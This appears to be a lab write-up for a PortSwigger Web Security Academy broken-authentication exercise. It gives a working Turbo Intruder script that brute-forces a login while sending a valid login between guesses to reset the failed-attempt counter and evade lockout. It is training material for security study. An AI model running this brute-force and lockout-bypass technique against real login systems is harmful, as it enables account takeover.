 

lets see if login-in to our own account affect the counter:
to build an attack that every second attempt will be a valid credential to reset failed attempts timer we will use Turbo Intruder as follow:
1. if not installed - install Turbo Intruder from BApp and right click the login request and send it to Turbo Intruder
2. on turbo intruder lets tweek the example/misc.py to this code:
```python
#1. define connection parameters:
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False,
                           maxQueueSize=3,
                           timeout=5,
                           maxRetriesPerRequest=3,
                           autoStart=False
                           )
    engine.start(timeout=5)

    # 2. reset request:
    counterreset = """POST /login HTTP/1.1
Host: 0a9800fc0374620ac05c36b500e8004c.web-security-academy.net
Content-Length: 30

username=wiener&password=peter"""

    #3. check process:   
    for word in open('/home/kali/Documents/Portswigger_labs/Broken Authentication /passwords.txt'):
        engine.queue(target.req, word.rstrip())
        engine.queue(counterreset)

# 4. filter:
def handleResponse(req, interesting):
    if '302' in req.response:
        table.add(req)
   
```
1. **connection parameters** - after much trial and error i found that using **concurrentConnections=1**,and **requestsPerConnection=1** and limiting the **maxQueueSize=3**
allows the reset logic to work proprely

2. **reset request**: this will be our "failed-attempts counter-reset request": every successful login resets de facto the counter of failed attempts. 

3. **check process** - the actual iterartion consist of a. password check request followd by b. counter reset request

4. **filter** a successful attempt yeilds 302 response so we will gather all successful responses and look in the payload column for the only raw with payload parameter full (since the rest of the 302 responses are not *payloaded* request)
